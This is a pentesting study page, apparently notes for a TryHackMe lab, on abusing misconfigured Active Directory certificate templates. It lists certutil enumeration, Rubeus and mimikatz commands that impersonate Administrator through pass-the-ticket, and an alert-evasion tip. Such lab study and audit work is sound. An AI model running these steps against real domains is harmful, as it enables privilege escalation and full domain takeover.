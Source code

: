 # Exploiting Certificates

### Resources

1. **Task 8 of TryHackMe Exploiting AD room**

{% embed url="https://tryhackme.com/room/exploitingad" %}

2. **Certificate template concepts**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/certificate-template-concepts" %}

3. **Manage certificate templates**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/manage-certificate-templates" %}

4. **\[MS-CRTD] Certificate Templates Structure**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/4c6950e4-1dc2-4ae3-98c3-b8919bb73822" %}

5. **Certutil**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732443(v=ws.11)" %}

6. **PSPKIAudit**

* AD CS auditing

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

7. **Further readings on AD Certificate exploitation (as a result of misconfigurations)**

{% embed url="https://tryhackme.com/room/adcertificatetemplates" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}



### What is AD Certificate Services?

A Microsoft's Public Key Infrastructure (PKI) implementation. It leverages on the fact that Active Directory (AD) provides a level of trust in an organisation, which allows it be act as a Certificate Authority (a PKI that issues certificates) to prove and delegate trust.

#### Certificate templates

> Certificate templates can greatly simplify the task of administering an Active Directory Certificate Services (AD CS) certification authority (CA) by allowing an administrator to issue certificates preconfigured for selected tasks.

> Certificate templates are the sets of rules and settings that are configured on a CA to be applied against incoming certificate requests. Certificate templates also give instructions to the client on how to create and submit a valid certificate request.

### Exploitation example

1. View the configured templates

```powershell
C:\>certutil -Template -v > templates.txt
```

* This command allows us to view all the configured certificate templates. The following [tool](https://github.com/GhostPack/PSPKIAudit) can be used too
* A combination of certain certificate parameter values  (misconfiguration) may allow us to exploit the certificate to perform privilege escalation
  * refer to the linked titled: "**Further readings on AD Certificate exploitation (as a result of misconfigurations)**" under the resources section above for more information



2. Request for a TGT using the newly retrieved certificate (to impersonate a particular user, eg. **Administrator**)

Given that we are able to retrieve a certificate with configured parameters of our choice: User Principal Name (UPN), etc., we can now use the certificate to request for a TGT to impersonate a user with `rubeus.exe`:

* Note: we can retrieve the certificate using the Microsoft Management Console (MMC))
* The following attack works due to the permissions provided by the certificate template. Particularly in this example, the ability to specify the Subject Alternative Name (SAN), and to be able to use the certificate for client authentication

{% code overflow="wrap" %}
```powershell
rubeus.exe asktgt /user:<user> /enctype:aes256 /certificate:<path_to_certificate> /password:<certificate_file_password> /outfile:<output_filename> /domain:<domain> /dc:<IP_of_DC>
```
{% endcode %}

* `/user`: Username to impersonate. This value has to match the UPN specified in the certificate
* `/enctype`: This specifies the encryption type for the ticket.&#x20;
  * Setting a value for this field is important for evasion, since the default encryption algorithm is weak, which may result in an overpass-the-hash alert&#x20;
* `/certificate`: Path to the certificate was generated previously
* `/password`: Password for the certificate file
* `/outfile:` The file to output the TGT to
* `/domain`: The FQDN of the domain we are attacking
* `/dc:` The IP of the domain controller which we are requesting the TGT from
  * It is best to select a DC that has a CA service running

Next, we can load the TGT into memory with `mimikatz`:

```powershell
mimikatz # privilege::debug
mimikatz # kerberos::ptt <TGT_file_location>.kirbi
mimikatz # exit
```



3. Test the validity of our TGT against the target

Given that we have crafted a TGT for the Administrator on the DC named `DC.TEST.COM`, we can now attempt to view the directory listing on that machine:

```powershell
C:\> dir \\DC.TEST.COM\C$
```

We can confirm that our TGT is working if we are able to view the directory listing.

#### Note

This attack variant works due to certain parameter value misconfigurations provided by the certificate template. Checkout the linked titled: "**Further readings on AD Certificate exploitation (as a result of misconfigurations)**" under the resources section above for more information on different attack variants.

